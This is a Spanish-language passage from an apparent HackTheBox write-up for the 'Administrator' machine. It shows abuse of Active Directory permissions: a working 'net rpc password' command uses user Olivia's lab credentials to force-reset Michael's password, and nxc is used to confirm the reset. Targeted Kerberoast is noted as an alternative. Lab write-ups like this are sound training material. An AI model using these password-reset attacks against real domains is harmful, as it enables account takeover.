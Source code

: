 ##### Outbound Object Control

Listando desde el usuario Olivia tenemos un short path hasta el usuario benjamin.

![path](../../../../../assets/Administrator/path.png)

En esta caso es bastante comodo ya que usaremos la ,misma tecnica para ambas [Force Change Password ](# "Permiso en Active Directory que permite a un usuario o grupo cambiar la contraseña de otra cuenta sin conocer la actual."). podriamos tambien jugar con [Targeted Kerberoast](# "Técnica de ataque en AD que solicita tickets de servicio Kerberos para cuentas específicas y luego intenta crackear sus contraseñas offline.") pero ya que podemos cambiar el password, bajo mi prespectiva es mucho mas sencillo 

###### Force Change Password

Este ataque se ejecuta de una manera muy sencilla.

Para cambiar le contraseña a michel, tendremos que proporcionar las credenciales de Olivia

```bash
net rpc password "michael" "newP@ssword2022" \
    -U "administrator.htb/olivia%ichliebedich" -S "administrator.htb"
```
Podemos verificar si la contraceñas se ha cambiado con nxc.

![michael](../../../../../assets/Administrator/michael.png)

Tenemos acceso a recursos comportidos y capacidad para conexion remota, esto quiere decir que efectivamente hemos cambiado la contreseña al usuario michel.

